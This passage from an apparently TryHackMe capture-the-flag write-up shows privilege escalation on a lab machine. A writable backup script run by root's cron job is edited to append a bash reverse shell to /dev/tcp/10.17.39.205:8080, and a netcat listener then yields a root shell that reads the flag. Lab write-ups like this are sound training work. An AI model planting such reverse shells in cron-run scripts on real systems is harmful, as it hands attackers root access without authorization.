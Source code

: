 On reading `/opt/admin_stuff/script.sh` found that the there are two more scripts running via this script
```console
gyles@TEAM:/tmp$ cat /opt/admin_stuff/script.sh
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh" <---------- 1
main_site="/usr/local/bin/main_backup.sh" <--------- 2
#Back ups the sites locally
$main_site
$dev_site

```
main_backup.sh has reading rights for gayle so edited that file and added a bash reverse shell to it
```console
gyles@TEAM:/tmp$ ls -l /usr/local/sbin/
total 4
-rwxr-xr-x 1 root root 64 Jan 17  2021 dev_backup.sh
gyles@TEAM:/tmp$ ls -l /usr/local/bin/
total 4
-rwxrwxr-x 1 root admin 109 Oct 11 07:01 main_backup.sh
gyles@TEAM:/tmp$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/i
bash -i >& /dev/tcp/10.17.39.205/8080 0>&1
```
Started netcat listener on port 8080 and got a reverse shell.
```console
┌──(divu050704㉿kali)-[~]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.17.39.205] from (UNKNOWN) [10.10.173.26] 58516
bash: cannot set terminal process group (9768): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# cat /root/root.txt
cat /root/root.txt
THM{fhqbznavfonq}
root@TEAM:~#
```
